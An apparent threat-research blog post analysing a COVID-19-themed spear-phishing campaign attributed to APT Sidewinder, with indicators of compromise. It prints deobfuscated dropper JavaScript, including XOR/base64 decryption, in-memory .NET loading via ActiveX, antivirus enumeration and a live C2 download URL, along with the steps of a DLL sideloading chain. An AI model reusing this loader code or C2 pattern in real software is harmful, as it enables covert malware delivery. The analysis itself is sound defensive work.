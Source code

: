 ```yaml
---
layout: post
title: "Analyzing COVID-19 Themed Attack Campaign by APT Sidewinder"
date: 2020-04-10 06:00:00 +0530
categories: ["threatresearch"]
tags: ["sidewinder","rattlesnake","india","pakistan","covid19","apt"]

---
```


During the recent spike in COVID-19 themed attacks, cyber-criminals and nation-backed threat actors are using the pandemic as a lure to gain access to critical infrastructure inside organizations.

## Background
Sidewinder a.k.a Rattlesnake is believed to be an Indian state-backed APT group. The threat group actively conducts operations targeting military and governments in Pakistan and China and is believed to be operating since 2012.

## Source of Discovery
The malware sample discovery belongs to the [__RedDrip__](https://twitter.com/RedDrip7) Team who shared two VirusTotal reports.

- [__966029e.hta__](https://www.virustotal.com/gui/file/3d5f133790f807270f6a64743cb593673f820bca4aba406ee08fda1429a340bd/detection)
- [__Cb2e3e0[1].hta__](https://www.virustotal.com/gui/file/d302e75752341090fcc9a04bdf8ae8300cc4746b2c4abf7539daafaae275c1f0/detection)

## Intrusion Point
The initial intrusion point of the attack is a spear-phishing email sent to the target. The email contains an executable .lnk file that fakes itself as a PDF. The victim tries to open the PDF and the malicious .lnk file unintentionally gets executed.

<div><center><img src="/assets/img/posts/2020-04-21-lnk-file.png" title="Spear-Phishing .lnk File"></center></div>
<br>
The malicious .lnk file contains the address of command and control domain. As soon as the file is executed, the embedded command is executed which downloads the stage-1 .hta dropper from `http://www.nrots.net/images/5328C28B/15936/11348/7c8d64e9/e17e25e`.

## Malware Analysis
The malware dropper 966029e.hta contains highly obfuscated JavaScript code which can be divided into 4 blocks for understanding. Each block of code is meant for different purposes during the first phase of attack.

### Decryption Block
The very first function is meant for decoding any base64 string passed to it. The second function consumes an XOR key and a base64 string resulting in decrypted payload. The third function takes a base64 string and sends it to the second function to XOR with a key that is stored in the variable "keeee". Doing an XOR of the hardcoded base64 string "fGNWc3tkXnB0Zg==" with the hardcoded key "MUgF" results in the value of keeee "1615619693" which will be used to de-obfuscate the embedded payload.

```javascript
function YiJr(str){
    var b64 = "ABCDEFGHIJKLMNOPQRSTUVWXY"+"Zabcdefghijklmnopqrstuvwxyz0123456789+/="
    var b, result = "",
       r1, r2, i = 0;
    for (; i < str.length;) {
        b = b64.indexOf(str.charAt(i++)) << 18 | b64.indexOf(str.charAt(i++)) << 12 |
            (r1 = b64.indexOf(str.charAt(i++))) << 6 | (r2 = b64.indexOf(str.charAt(i++)));
        result += r1 === 64 ? vLpfue(b >> 16 & 255) :
            r2 === 64 ? vLpfue(b >> 16 & 255, b >> 8 & 255) :
            vLpfue(b >> 16 & 255, b >> 8 & 255, b & 255);
    }
    return result;
    };
function xStrAmh (key, bytes){
    var res = [];
    for (var i = 0; i < bytes.length; ) {
        for (var j = 0; j < key.length; j++) {
            res.push(vLpfue((bytes.charCodeAt(i)) ^ key.charCodeAt(j)));
            i++;
            if (i >= bytes.length) {
                j = key.length;
            }
        }
    }
    return res.join("")
}
function rBEokCwZ(bsix){
    return xStrAmh(keeee,YiJr(bsix))
}
var keeee = xStrAmh("MUgF",YiJr("fGNW"+"c3tk"+"XnB0"+"Zg=="));
```

### Memory Writing Block
The decryption block decrypts the embedded binary which is loaded into the memory by the memory writing block of the JS script. The following code was decrypted using the functions from the decryption block:

```javascript
function Func4(b) {
    var enc = new ActiveXObject1("System.Text.ASCIIEncoding");
    var length = enc["GetByteCount_2"](b);
    var ba = enc["GetBytes_4"](b);
    var transform = new ActiveXObject1("System.Security.Cryptography.FromBase64Transform");
    ba = transform["TransformFinalBlock"](ba, 0, length);
    var ms = new ActiveXObject1("System.IO.MemoryStream");
    ms.Write(ba, 0, (length / 4) * 3);
    ms.Position = 0;
    dash = ms;
}
```

### Enumeration Block
The enumeration block enumerates the victim machine in an attempt to find the current version of .NET framework installed on it. The following code was decrypted using the functions from the decryption block:

```javascript
var shells = new ActiveXObject1("WScript.Shell");
function tPYpmq(){
    var net = "";
    var FSO = new ActiveXObject1("Scripting.FileSystemObject");
    var folds = FSO.GetFolder(FSO.GetSpecialFolder(0)+"\Microsoft.NET\Framework\ ").SubFolders;
    e = new Enumerator(folds);
    var folder;
    e.moveFirst();   
    while (e.atEnd() == false)  
    {  
        folder = e.item();
        var files = folder.files;
        var fileEnum = new Enumerator(files);
        fileEnum.moveFirst(); 
        while(fileEnum.atEnd() == false){
        if(fileEnum.item().Name == "csc.exe")
        {
            if(folder.Name.substring(0,2)=="v2")
                return "v2.0.50727";
            else if(folder.Name.substring(0,2)=="v4")
                return "v4.0.30319";
            }
            fileEnum[moveNext](); 
        }
        e[moveNext]();
    }
    return folder.Name;
}
ver = v2.0.50727;
try {
    ver = Func5();
} catch(e) { 
    ver = "v2.0.50727";
}
```

### CnC Block
The CnC block collects information about installed anti-virus software and its current status of updates on the victim machine. This information is then used to craft a URL ```http://www.d01fa.net/plugins/16364/11542/true/true/``` to communicate with the command and control server and download the related payload.

```javascript
shells.Environment("Process")(COMPLUS_Version) = ver;;
    var objWMIService = GetObject("winmgmts:\\.\root\SecurityCenter2");
    var colItems = objWMIService.ExecQuery("Select * From AntiVirusProduct", null, 48);
    var objItem = new Enumerator(colItems); 
    var x = "";
    for (; !objItem.atEnd(); objItem[moveNext]()) {
    x += (objItem.item().displayName + " " + objItem.item().productState).replace(" ", "");
    }
    var stm = Func4(so.split(".").join(''));
    var fmt = new ActiveXObject1("System.Runtime.Serialization.Formatters.Binary.BinaryFormatter");
    var al = new ActiveXObject1("System.Collections.ArrayList");
    var d = fmt["Deserialize_2"](dash);
    al.Add(undefined);
    var o = d["DynamicInvoke"](al.ToArray())["CreateInstance"](ec);
    if(x && x.length){
        x = x + "_stg1";
    }
    var aUrl = "http://www.d01fa.net/plugins/16364/11542/true/true/"+x;
```

### Embedded Binary & Decoy
Within the dropper, two variables contain huge encrypted strings. One of the variables contains the stage-2 binary that is decrypted and written directly into the memory. The second variable contains content of a decoy PDF which is decrypted and shown to the victim. Analysis of the binary embedded in the former variable reveals its original name as ___LinkZip.dll___. The binary is a [__DotNetToJScript__](https://github.com/tyranid/DotNetToJScript) converter written by [James Forshaw](https://twitter.com/tiraniddo).

<div><center><img src="/assets/img/posts/2020-04-21-embedded-binary.png" title="Embedded DotNetToJScript Binary"></center></div>
<br>
The dropper also downloads a variant of the malware named [file.hta](https://www.virustotal.com/gui/file/34ab2e72624e808efa66cccb9ea2ec086b02927165dfc00d477cf573ffff2761/detection) for persistence. The decryption mechanism of the __file.hta__ is the same as the .hta dropper and is responsible for dropping the following binaries `C:\ProgramData\`

- [__Duser.dll__](https://www.virustotal.com/gui/file/c69456894fb70e6dfb4ef38bc926f8fc90a82a7b9427f429581a7cee22e09411/detection) - XOR decryptor for file containing the RAT
- SOHYXY.tmp - Encrypted payload decrypted by Duser.dll
- rekeywiz.exe - Windows legit binary
- rekeywiz.conf - configuration file for rekeywiz.conf

_Duser.dll_ decrypts the file named _"SOHYXY.tmp"_ and deploys the RAT for performing reconnaissance on the victim machines. The commands issued by the C2 server are stored in an encrypted file named [__font__](https://www.virustotal.com/gui/file/5e20dcef43ed82e97b881220f0e6971af364874f42849cea6e90030ebbd69f6c/detection). After decryption using the already discussed methodology, the C2 commands are revealed indicating that the stolen information is sent to `cloud-apt.net`
<br>
<br>

---
[___IOCs and YARA Signatures___](https://github.com/ahmadmkhan1/Threat-Research/blob/master/20200410_sidewinder_covid19-themed-attack-to-deploy-RAT.yar)

